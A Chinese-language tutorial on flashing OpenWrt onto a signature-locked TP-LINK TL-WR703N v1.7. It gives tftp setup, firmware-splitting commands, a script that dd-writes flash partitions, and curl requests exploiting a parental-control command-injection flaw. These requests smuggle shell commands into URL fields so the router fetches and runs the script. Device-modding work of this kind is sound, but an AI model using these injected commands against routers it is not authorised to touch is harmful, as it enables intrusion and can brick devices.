 # TP-LINK TL-WR703N v1.7 openwrt flashing

> 喜欢请[star](https://github.com/ahangchen/windy-afternoon/blob/master/linux/raspbian/tlwr703n_openwrt.md)，转载请注明作者[梦里茶](https://github.com/ahangchen)

TP-LINK TL-WR703N是一个小型的路由器，可以有线转WiFi，3G转WiFi，很多人拿它刷openwrt系统，然后可以在上面各种搞事。

![TL-WR703N](../../.gitbook/assets/wr703n.jpg)

## V1.7以前

通常刷openwrt的做法是，

* 下载一个openwrt [factory固件](http://downloads.openwrt.org/attitude_adjustment/12.09/ar71xx/generic/openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin)
* 打开路由器，
* 笔记本连接路由器发出来的WiFi，比如：TP-LINK-90-1B-18
* 在浏览器输入192.168.1.1，选择左边“系统工具”-“软件升级”-“浏览”
* 找到刚刚下载的镜像bin文件，确定
* 然后就会自动把openwrt刷到板子里边了

## V1.7以后

然而！上面的方法只有在2012年12月以前生产的WR703N上（型号在FW build 121204以前的）才有用，在之后的板子上，选择完bin文件会提示“上传的文件与硬件版本不符”，导致无法从web管理界面刷写系统！具体来讲，如果你的型号（这个在路由器管理界面可以看到）跟我的一样是3.17.1 Build 140120 Rel.56593n，那么恭喜你中奖了，只能通过下面这种方式或者TTL硬件方式刷openwrt。

原因是，2012年12月之后的系统升级，对bin文件做了RSA签名校验，无法刷第三方的系统。

一番搜索之后发现有个[国外的牛人](https://pastebin.com/0wzMthfr)利用TP-LINK家长控制的漏洞，让路由板执行一些代码，成功刷写openwrt系统，这个方法的英文版也被放到了openwrt wr703n的官方wiki上，可以说是相当靠谱了，国内有人也整理了一个[中文版](https://boweihe.me/2015/11/02/wr703n-v1-7-破解openwrt（提示密码错误等问题的解决）/)，但有些步骤还是不够详细，于是我整理了一个完整的版出来，让大家少踩一些坑。windows的同学可以参考这个中文版，不过里边有些链接失效了，可以参考我这篇去找对应的工具。

## 搭建tftp服务器

因为我们会先把镜像下载并处理好放在一个ftp服务器上，所以需要另一台电脑扮演这个角色

* 以MacOS为例，MacOS是内置了tftp服务器的，不需要另外安装，
* 默认的ftp服务器会把将`/private/tftpboot`这个目录作为根目录
* 修改这个目录的权限

```text
sudo chmod 777 /private/tftpboot
sudo chmod 777 /private/tftpboot/*
```

* 启动tftp服务

```text
sudo launchctl load -F /System/Library/LaunchDaemons/tftp.plist
sudo launchctl start com.apple.tftpd
```

* 测试，在另一台电脑上，以Ubuntu为例，安装tftp客户端

```text
cwh@cwh-Matrimax-PC:sudo apt-get install tftp
cwh@cwh-Matrimax-PC:~$ tftp
(to) 192.168.2.210
tftp> get aa
```

把Ubuntu和mac放在一个局域网里，mac的ip是192.168.2.210，在mac的`/private/tftpboot`目录下有一个名为aa的文件，执行`get aa`之后，会发现Ubuntu的home目录下多了一个aa文件，也就是文件传送成功了。

## 准备工具

* \*Nix系统下curl，dd，都是自带的，不用下载，
* 下载busybox，这个是用来在wr703n上执行dd和reboot命令用的，默认的命令行执行不了

```text
curl https://busybox.net/downloads/binaries/1.21.1/busybox-mips > busybox
```

链接有可能失效，可以谷歌搜索busybox binary download，下载mips版本的

* 下载openwrt固件并拆分成两份（因为wr703n的内存很小，可能传输的时候传不了整个文件）

```text
curl https://downloads.openwrt.org/snapshots/trunk/ar71xx/generic/openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin -o openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin
dd if=openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin of=i1 bs=1 count=1048576
dd if=openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin of=i2 bs=1 skip=1048576
```

* 将busybox, 拆开的固件i1, i2放到tftp服务器目录`/private/tfboot`下

## 编写Hack脚本

* 进入tftp服务器目录
* 新建文件aa（很随意的一个名字），里边内容为：

```text
cd /tmp
tftp -gl i1 192.168.1.100
tftp -gl i2 192.168.1.100
tftp -gl busybox 192.168.1.100
chmod 755 busybox
./busybox dd if=i1 of=/dev/mtdblock1 conv=fsync
./busybox dd if=i2 of=/dev/mtdblock2 conv=fsync
reboot -f
```

解释一下每行代码

```text
cd /tmp
tftp -gl i1 192.168.1.100 # 把i1从tftp服务器下载下来，这里的ip应该是，你的tftp服务器连接路由器之后，ifconfig看到的ip
tftp -gl i2 192.168.1.100 # 把i2从tftp服务器下载下来
tftp -gl busybox 192.168.1.100 # 把busybox从tftp服务器下载下来
chmod 755 busybox  # 修改busybox权限以执行命令
./busybox dd if=i1 of=/dev/mtdblock1 conv=fsync # 将i1写入磁盘分区
./busybox dd if=i2 of=/dev/mtdblock2 conv=fsync # 将i2写入磁盘分区
reboot -f # 重启，会启动openwrt
```

至此，你的tftp目录下应该有4个文件：i1, i2, aa, busybox，缺一不可

## Hack into TL-WR703N

这个方法是利用TPLINK家长控制漏洞，以curl的方式执行命令，让路由器从tftp服务器上下载脚本，执行命令，从而将openwrt固件写入路由器

> 【警告】以下步骤可能导致你的路由器变砖，请确认当前的路由器固件版本是3.17.1 Build 140120. 下述全过程请勿断开连接或是断开电源，本人不对产生的任何后果负责！另外，每一步都很重要，别忽略其中任何一步。一旦变砖，请用3.3V的串口线抢救

* 首先长按reboot按钮将路由器恢复出厂设置
* 将tftp服务器（这里是Mac）通过WiFi的方式连接到路由器，ifconfig记住自己的ip，我的是192.168.1.100
* 在tftp服务器上（连接到路由器的另外一台机器也行）执行
* 修改密码为admin42

```text
curl -o - -b 'tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=true' 'http://192.168.1.1/'
```

注意这里的192.168.1.1是路由器的ip地址, 这个步骤只会更改路由器家长控制的默认密码，刷完openwrt之后会恢复为openwrt的默认密码的

* 启用家长控制（利用漏洞）

```text
curl -o - -b 'tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=' --referer 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm' 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm?ctrl_enable=1&parent_mac_addr=00-00-00-00-00-02&Page=1'
```

* 让路由器从tftp服务器下载并执行脚本

```text
curl -o - -b 'tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=' --referer 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm?Modify=0&Page=1' 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm?child_mac=00-00-00-00-00-01&lan_lists=888&url_comment=test&url_0=;cd%20/tmp;&url_1=;tftp%20-gl%20aa%20192.168.1.100;&url_2=;sh%20aa;&url_3=&url_4=&url_5=&url_6=&url_7=&scheds_lists=255&enable=1&Changed=1&SelIndex=0&Page=1&rule_mode=0&Save=%B1%A3+%B4%E6'
```

等待大约三分钟，路由器会重启进入openwrt系统，状态灯会闪烁一会儿

## 进入openwrt系统

后边可以参考这位大兄弟写的[教程](https://gist.github.com/ninehills/2627163#初始配置2)，挺详细的了

